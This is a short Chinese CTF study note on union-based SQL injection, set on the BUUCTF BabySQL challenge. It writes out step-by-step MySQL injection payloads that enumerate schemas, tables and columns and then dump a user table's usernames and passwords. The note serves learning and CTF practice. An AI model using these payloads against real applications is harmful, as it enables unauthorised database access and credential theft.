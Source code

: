 ```yaml
---
title: SQL 爆库名表名列名数据小结
categories:
- Note&Summary
tag:
- CTF
- web
date: 2024-09-07 23:18:01
excerpt: 学习中......
index_img: /img/SQL.png
banner_img: /img/SQL.png
---
```


# SQL 爆库名表名列名数据小结

本篇以 BUUCTF-[极客大挑战 2019]BabySQL 1 为例，但不涉及该题详细内容

题中涉及到双写绕过关键字过滤，在以下不做考虑，仅借用本题场景

1.通过 `order by` 判断得出数据表为 3 列，并测试得回显 2、3

2.获取所有库名 `1' union select 1,database(),group_concat(schema_name) from information_schema.schemata #` 得到 geek 以及 information_schema,mysql,performance_schema,test,ctf,geek

3.获取 geek 库中的表名 `1' union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema='geek' #` 得到 b4bsql,geekuser

4.获取 geekuser 中的列名 `1' union select 1,database(),group_concat(column_name) from information_schema.columns where table_name='geekuser' #` 得到 id,username,password

5.获取数据 `1' union select 1,2,group_concat(concat_ws(0x7e,username,password)) from geek.geekuser #` 其中 `concat_ws()` 函数的功能是指定参数之间的分隔符，`0x7e` 即为 `~`，非必须，from 后的格式为“库名.表名”

参考：[https://www.cnblogs.com/xiaobai141/p/14160758.html](https://www.cnblogs.com/xiaobai141/p/14160758.html)
